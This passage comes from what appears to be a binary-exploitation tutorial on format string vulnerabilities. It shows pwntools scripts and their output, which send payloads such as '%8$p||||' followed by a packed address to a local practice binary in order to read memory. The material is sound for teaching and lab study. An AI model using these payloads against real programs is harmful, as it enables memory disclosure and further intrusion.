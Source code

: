 ```text
$ python3 exploit.py

[+] Starting local process './vuln': pid 3204
[*] b'DCBA|0x41424344'
```

Nice it works. The base address of the binary is `0x8048000`, so let's replace the `0x41424344` with that and read it with `%s`:

```python
from pwn import *

p = process('./vuln')

payload = p32(0x8048000)
payload += b'|%6$s'

p.sendline(payload)
log.info(p.clean())
```

It doesn't work.

The reason it doesn't work is that `printf` stops at null bytes, and the very first character is a null byte. We have to put the format specifier first.

```python
from pwn import *

p = process('./vuln')

payload = b'%8$p||||'
payload += p32(0x8048000)

p.sendline(payload)
log.info(p.clean())
```

Let's break down the payload:

* We add 4 `|` because we want the address we write to fill one memory address, not half of one and half another, because that will result in reading the wrong address
* The offset is `%8$p` because the start of the buffer is generally at `%6$p`. However, memory addresses are 4 bytes long each and we already have 8 bytes, so it's two memory addresses further along at `%8$p`. 

```text
$ python3 exploit.py

[+] Starting local process './vuln': pid 3255
[*] b'0x8048000||||'
```

> It still stops at the null byte, but that's not important because we get the output; the address is still written to memory, just not printed back.
